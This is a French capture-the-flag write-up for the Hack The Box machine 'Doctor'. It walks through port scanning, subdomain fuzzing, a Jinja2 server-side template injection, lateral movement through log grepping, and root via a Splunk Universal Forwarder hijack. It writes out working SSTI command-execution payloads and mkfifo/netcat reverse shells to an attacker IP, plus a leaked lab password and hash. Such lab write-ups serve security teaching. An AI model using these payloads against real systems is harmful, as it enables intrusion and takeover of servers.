# Infos


## Reconnaissance

### Nmap base

```
sudo nmap -sV -T4 -oN nmap_base -Pn  --min-rate 10000 10.129.2.21 -v

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
8089/tcp open  ssl/http Splunkd httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumération

### Port 80/tcp - HTTP

Le site `Doctor` sous le port 80 est statique, tous les onglets redirigent vers la page d'accueil.


Si on scroll un peu, on retrouve `doctors.htb` que l'on va ajouter dans /etc/hosts


En dessous, on retrouve les docteurs qui peuvent être de potentiels utilisateurs pour la suite :
- Dr. Jade Guzman -> Cardiologist
- Dr. Hannah Ford -> Dermatologist
- Dr. James Wilson -> Surgeon


Dans le footer, on peut voir que le template provient de `Colorlib` qui est généralement lié aux sites Wordpress, mais ce n'est qu'une supposition.


Pour en avoir le coeur net, on peut utiliser wpscan afin de voir si c'est bien un Wordpress, mais ce n'est pas le cas.



Si on regarde la techstack avec `Wappalyzer`, il s'agit d'un serveur web Apache `2.4.41` avec un backend en PHP sur l'OS Ubuntu.


Il n'y a rien d'intéressant dans le code source, ni robots.txt. A ce stade, on peut tenter de fuzz les répertoires et fichiers.

`ffuf -ic -c -w /usr/share/wordlists/dirb/common.txt -u http://10.129.2.21/FUZZ -e .txt,.html,.php`

Mais ça ne donne rien. Tentatives de fuzz les sous-domaines avec la [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-20000.txt) de SecLists.

`ffuf -ic -c -u http://doctor.htb -H 'Host: FUZZ.doctor.htb' -w subdomains-top1million-20000.txt -fs 19848`

Mais ça ne donne rien non plus, c'est le cas aussi avec la [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/bitquark-subdomains-top100000.txt) bitquark.

`ffuf -ic -c -u http://doctor.htb -H 'Host: FUZZ.doctor.htb' -w bitquark-subdomains-top100000.txt -fs 19848`

Si on reach le vhost `doctors.htb`, on arrive sur une autre page `Doctor Secure Messaging` avec un formulaire de connexion, et la possibilité de créer un compte en cliquant sur `register`. La techstack indique qu'il s'agit d'un serveur web en Flask `1.0.1`.



On commence par créer un utilisateur



On reçoit alors une réponse comme quoi le compte a bien été créé pour une durée de 20 minutes.


Une fois connecté on retrouve trois onglets `New Message`, `Account` et `Logout`. Ainsi qu'un bouton `1` qui redirige vers `http://doctors.htb/home?page=1`.


On peut voir que le nom de l'utilisateur ainsi que l'email sont réfléchies dans la page. On peut tenter de faire une XSS ou une SSTI, tentative de XSS. 


On obtient une erreur pour signaler que notre `username` est trop long.



Tentative de SSTI



Mais ça ne donne rien :(


## Première connexion - web

Dans le code source, on retrouve un path `/archive` toujours sous beta testing qui pourrait être juicy ! :p


Si on reach le path, on obtient une page blanche.


Cependant si on regarde le code source, on peut voir une réponse en XML



Framework Flask + valeurs réfléchies dans la page = SSTI, on peut utiliser la [méthodologie](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology) de PayloadsAllTheThings pour identifier la technologie (Jinja2, Twig pour PHP etc.) ainsi que la bonne syntaxe pour le payload.


Mais dans un premier temps, on peut confirmer la présence de la vulnérabilité SSTI à l'aide du payload [polyglot](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#detection), dans la majorité des cas, ce payloads va déclencer une erreur en présence d'une SSTI.


On obtient bien un code erreur 500 qui semble confirmer notre théorie. Maintenant on va déterminer quelle syntaxe utiliser pour obtenir notre RCE.



La première syntaxe ne fonctionne pas, alors on passe à la suivante



Cette syntaxe fonctionne, on a bien le résultat de la multiplication `36` dans le code source entre les balises title. On peut continuer afin de confirmer qu'il s'agit bien de Jinja2


Et ca fonctionne également, on obtient 7 fois la valeur indiquée dans la chaîne de caractères, à savoir `7777777`. Maintenant on peut passer à l'exploitation en utilisant la fonction `os.popen()` pour afficher la commande `id`

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`


Il ne reste plus qu'à modifier la commande id par un reverse shell mkfifo afin d'obtenir un reverse shell sur la machine en tant qu'utilisateur `web` sur la machine `doctor`.

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.53 9001 >/tmp/f').read() }}`


## Mouvement latéral - shaun

Une fois qu'on a obtenu un shell, on retrouve rapidement un fichier `site.db` sous `/home/web/blog/flaskblog`.



On ne peut pas le transférer via un serveur web python, je vais utiliser une strings en base64 encodé sur la target que je décoderais sur ma machine par la suite. On commence par copier la strings en base64 après avoir exécuter cette commande.

`cat site.db | base64 > xdb_b64`



Puis sur ma machine je vais simplement exécuter cette commande pour récupérer le fichier

`echo "<loooong_b64_strings>" | base64 -d > site.db`



Maintenant je peux me connecter avec `sqlite3` et énumérer la DB.


Enumération des tables puis de la table `user`


On retrouve l'utilisateur `admin` et son hash associé `$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`. Selon le site [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), il s'agit de bcrypt (mode 30600 pour hashcat).


Tentative de crack avec JtR, mais ça ne donne rien

`john --format=bcrypt hash_admin.txt --wordlist=../tools/rockyou.txt`

L'utilisateur fait parti du groupe `adm`


On peut utiliser la commande find pour voir où ce groupe a de l'intérêt sur le FS

`find / -group adm -ls 2>/dev/null | grep -v '/proc\|/sys\|/home\|/run'`



On peut voir qu'il gère le monitoring sur le FS, on peut essayer de grep pour des mots de passe dans les logs.

`grep -R "password" 2>/dev/null`



On retrouve le mot de passe `Guitar123`, on peut essayer de se connecter en SSH avec shaun, mais ça ne passe pas. On peut tenter directement de switch sur la target avec `su` et ça fonctionne.

`su shaun`

On peut récupérer le premier flag



## Elévation de privilèges - root

Lancement de linpeas pour essayer de trouver un moyen d'élever ses privilèges, on a déjà une piste. On a pu voir lors de l'énumération initiale un port 8089 ouvert en lien avec splunk et un utilisateur `splunk` existe aussi sur la machine. Dans les processus on retrouve le path `/opt/splunkforwarder` qui exécute un fichier `pwn.bat`. Toutefois, on a pas les droits pour lire le fichier


Si on se met à rechercher des articles en lien avec `splunk forwarder privilege escalation`, on tombe rapicement sur cet [article](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) ainsi que cet [exploit](https://github.com/cnotin/SplunkWhisperer2/tree/master) sur le repo de `cnotin`.

Splunk Forwarded inclut un service de gestion qui écoute sur le port 8089 et qui est utilisé pour gérer le forwarded. Par défaut, il accepte les connexions à distance, mais n'autorise pas les connexion à distance avec les informations d'identification par défaut `admin:changeme`, cela peut nous permettre :
- D'élever nos privilèges localement si le mot de passe par défaut n'a pas été changé ;
- D'exécuter des commandes à distance si le mot de passe par défaut a été changé et qu'il est connu de l'attaquant.

On commence par cloner le repo pour utiliser le script python `PySplunkWhisperer2_remote.py`. Si on tente sans credentials, on obtient un message authentifcation failure


En effet, si on audit le script, on peut voir que si on ne précise par de credentials, il prend ceux par defaut



Si maintenant on ajoute les creds que l'on a récupéré `shaun:Guitar123`, ça fonctionne

`python3 PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.53 --username shaun --password 'Guitar123' --payload "id"`


Si maintenant on modifie le payload pour mettre un reverse shell mkfifo, ça fonctionne et on obtient un shell en tant que root et on peut récupérer le dernier flag.

`python3 PySplunkWhisperer2_remote.py --host 10.129.2.21 --lhost 10.10.14.53 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.53 9002 >/tmp/f"`


